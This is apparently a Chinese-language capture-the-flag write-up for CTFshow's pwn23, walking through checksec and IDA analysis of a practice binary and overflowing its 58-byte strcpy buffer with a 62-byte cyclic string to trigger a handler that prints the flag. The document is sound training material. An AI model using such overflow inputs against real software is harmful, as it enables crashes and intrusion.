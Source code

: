```
tasike@tasike-VM:~/Desktop$ file pwn23
pwn23: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=17d22c7d5b5ecc0d97752ce9b82cb45163eae812, not stripped
tasike@tasike-VM:~/Desktop$ checksec pwn23
[*] '/home/tasike/Desktop/pwn23'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

32位，部分开启RELRO，开启NX

------------

先连接上靶场试一下：

```
tasike@tasike-VM:~/Desktop$ ssh ctfshow@pwn.challenge.ctf.show -p28181
ctfshow@pwn.challenge.ctf.show's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-163-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Fri Nov  3 19:39:09 2023 from 172.12.0.5
$ ls
pwnme
$ ./pwnme
    ▄▄▄▄   ▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄            ▄▄                           
  ██▀▀▀▀█  ▀▀▀██▀▀▀  ██▀▀▀▀▀▀            ██                           
 ██▀          ██     ██        ▄▄█████▄  ██▄████▄   ▄████▄  ██      ██
 ██           ██     ███████   ██▄▄▄▄ ▀  ██▀   ██  ██▀  ▀██ ▀█  ██  █▀
 ██▄          ██     ██         ▀▀▀▀██▄  ██    ██  ██    ██  ██▄██▄██ 
  ██▄▄▄▄█     ██     ██        █▄▄▄▄▄██  ██    ██  ▀██▄▄██▀  ▀██  ██▀ 
    ▀▀▀▀      ▀▀     ▀▀         ▀▀▀▀▀▀   ▀▀    ▀▀    ▀▀▀▀     ▀▀  ▀▀  
    * *************************************                           
    * Classify: CTFshow --- PWN --- 入门                              
    * Type  : Linux_Security_Mechanisms                               
    * Site  : https://ctf.show/                                       
    * Hint  : No canary found                                         
    * *************************************                           
How to input ?
$ 111112232
-sh: 3: 111112232: not found
$ 

```

因此就在于如何对pwnme这个文件进行操作来达到获取flag的目的。

--------------

用IDA查看：
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __gid_t v3; // eax
  int v5; // [esp-Ch] [ebp-2Ch]
  int v6; // [esp-8h] [ebp-28h]
  int v7; // [esp-4h] [ebp-24h]
  FILE *stream; // [esp+4h] [ebp-1Ch]

  stream = fopen("/ctfshow_flag", "r");
  if ( !stream )
  {
    puts("/ctfshow_flag: No such file or directory.");
    exit(0);
  }
  fgets(flag, 64, stream);
  signal(11, (__sighandler_t)sigsegv_handler);
  v3 = getegid();
  setresgid(v3, v3, v3, v5, v6, v7, v3);
  puts(asc_8048940);
  puts(asc_80489B4);
  puts(asc_8048A30);
  puts(asc_8048ABC);
  puts(asc_8048B4C);
  puts(asc_8048BD0);
  puts(asc_8048C64);
  puts("    * *************************************                           ");
  puts(aClassifyCtfsho);
  puts("    * Type  : Linux_Security_Mechanisms                               ");
  puts("    * Site  : https://ctf.show/                                       ");
  puts("    * Hint  : No canary found                                         ");
  puts("    * *************************************                           ");
  puts("How to input ?");
  if ( argc > 1 )
    ctfshow((char *)argv[1]);
  return 0;
}
```

stream指向ctfshow_flag

15行：从ctfshow_flag中读取不超过64字节到flag缓冲区(跟进后发现是bss段)

16行：signal(11, (__sighandler_t)sigsegv_handler)。

​			11是信号量。

​			11：SIGSEGV（非法内存访问）。

​			程序定义了一个信号量，当出现这个信号量（非法内存访问）的时候，会执行sigsegv_handler函数。

那这个函数是干嘛的呢？

```
void __noreturn sigsegv_handler()
{
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}
```

[Linux fprintf的用法-CSDN博客](https://blog.csdn.net/u010058695/article/details/102541891?ops_request_misc=%7B%22request%5Fid%22%3A%22169903921816800186599172%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=169903921816800186599172&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-102541891-null-null.142^v96^pc_search_result_base9&utm_term=linux中fprintf函数&spm=1018.2226.3001.4187)综合这个函数执行的条件，当我们非法内存访问的时候，fprintf作为一种格式化输出的函数(%s是后面那个flag的占位符)，所以就是将flag输出到标准错误的缓冲区。

[linux中fflush函数 【转】-CSDN博客](https://blog.csdn.net/weixin_30419799/article/details/96097801?ops_request_misc=%7B%22request%5Fid%22%3A%22169903962916800182777398%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fall.%22%7D&request_id=169903962916800182777398&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-96097801-null-null.142^v96^pc_search_result_base9&utm_term=Linux中的fflush函数&spm=1018.2226.3001.4187)说白了，fflush函数的作用就是把文件流中未写出的数据全部写出去。

因此整个sigsegv_handler函数的含义其实就是输出flag，只是这个函数要执行需要我们进行非法内存访问。

-----

33行：[c语言中argc和argv的作用及用法-CSDN博客](https://blog.csdn.net/zhaozhiyuan111/article/details/104050729)

34行：跟进ctfshow函数

```
char *__cdecl ctfshow(char *src)
{
  char dest[58]; // [esp+Ah] [ebp-3Eh] BYREF
  return strcpy(dest, src);
}
```

根据原34行可知：该函数传入的参数为argv[1]，也就是命令的第二条(跟在.pwnme后面输入的一条指令)，并且要完成前面的非法内存访问，因此我们只需要第二条指令输入超过58个字符==(注意这里的超过不只是超过58，必须>=62才算溢出，因为跟进dest数组,可以很容易发现有个缓冲区域占4字节)==，就可以达到dest溢出，也就是非法访问，从而输出flag。

------------------

操作走起：

```
tasike@tasike-VM:~/Desktop$ cyclic 62
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapa

tasike@tasike-VM:~/Desktop$ ssh ctfshow@pwn.challenge.ctf.show -p28181
ctfshow@pwn.challenge.ctf.show's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-163-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Fri Nov  3 19:49:28 2023 from 172.12.0.5
$ ./pwnme aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapa
    ▄▄▄▄   ▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄            ▄▄                           
  ██▀▀▀▀█  ▀▀▀██▀▀▀  ██▀▀▀▀▀▀            ██                           
 ██▀          ██     ██        ▄▄█████▄  ██▄████▄   ▄████▄  ██      ██
 ██           ██     ███████   ██▄▄▄▄ ▀  ██▀   ██  ██▀  ▀██ ▀█  ██  █▀
 ██▄          ██     ██         ▀▀▀▀██▄  ██    ██  ██    ██  ██▄██▄██ 
  ██▄▄▄▄█     ██     ██        █▄▄▄▄▄██  ██    ██  ▀██▄▄██▀  ▀██  ██▀ 
    ▀▀▀▀      ▀▀     ▀▀         ▀▀▀▀▀▀   ▀▀    ▀▀    ▀▀▀▀     ▀▀  ▀▀  
    * *************************************                           
    * Classify: CTFshow --- PWN --- 入门                              
    * Type  : Linux_Security_Mechanisms                               
    * Site  : https://ctf.show/                                       
    * Hint  : No canary found                                         
    * *************************************                           
How to input ?
ctfshow{4694c193-42f5-4013-98cc-2ee6192ecfd2}

```

